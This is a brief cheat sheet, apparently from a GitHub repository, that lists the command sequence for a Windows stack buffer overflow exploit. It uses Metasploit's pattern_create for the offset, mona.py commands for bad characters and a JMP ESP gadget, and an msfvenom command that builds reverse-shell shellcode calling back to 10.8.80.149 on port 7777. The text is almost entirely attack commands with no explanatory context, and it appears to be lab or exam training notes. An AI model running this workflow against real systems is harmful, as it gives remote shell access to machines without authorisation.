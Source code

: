 # BufferOverflow


/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

!mona findmsp -distance 600

!mona bytearray -b "\x00"

!mona compare -f bytearray.bin -a <ESP address>

!mona jmp -r esp -cpb "\x00"



shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.80.149 LPORT=7777 EXITFUNC=thread -b "\x00\xa9\xcd\xd4" -f c